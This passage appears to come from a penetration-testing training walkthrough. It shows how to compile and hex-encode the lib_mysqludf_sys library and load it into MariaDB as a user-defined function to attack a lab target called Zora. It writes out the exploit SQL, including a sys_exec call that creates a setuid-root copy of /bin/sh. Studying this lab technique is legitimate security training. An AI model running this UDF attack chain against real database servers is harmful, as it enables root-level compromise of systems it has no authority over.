 Specifically we need to adjust the include directory path for the gcc command since we have a MariaDB installation on our Kali system and not a MySQL one. The changes to the Makefile are shown in Listing 60.

```
kali@kali:~/lib_mysqludf_sys$ cat Makefile
LIBDIR=/usr/lib                                                                                             
install:                                                                                                
        gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so 
        
kali@kali:~/lib_mysqludf_sys$ make
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
```

The -Wall flag enables all of gcc's warning messages and -I includes the directory of header files. The list included in the command found in Listing 60 are common locations for header files for MariaDB. The -shared flag tells gcc this is a shared library and to generate a shared object file. Finally, -o tells gcc where to output the file.

Recalling the SQL commands from the UDF exploit, to transfer the shared library to the target database server, we will need the file as a hexdump.

```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

To do so we can use the following command:

```
kali@kali:~/lib_mysqludf_sys$ xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```

The xxd command is used to make the hexdump and the -p flag outputs a plain hexdump, which makes it easier for further manipulation. We use tr to delete the new line character and then dump the contents of the output to a file named lib_mysqludf_sys.so.hex.

The contents of the lib_mysqludf_sys.so.hex file is what we will use for shellcode.

We have everything that we need to attempt to exploit Zora. Now we just need to put it together. Before we begin running the malicious SQL commands, we will create a variable in MariaDB for the shellcode. The contents of this variable are obtained from the lib_mysqludf_sys.so.hex file.

```
MariaDB [(none)]> set @shell = 0x7f454c4602010100000000000000000003003e000100000000110000000000004000000000000000e03b0000000000000000000040003800090040001c001b000100000004000000000000...00000000000000000000;
```

Note the addition of "0x" to the beginning of the shellcode and the lack of single or double quotes. This is necessary for MariaDB to read the text as binary. Next, per the exploit instructions, we will confirm the location of the plugin directory.
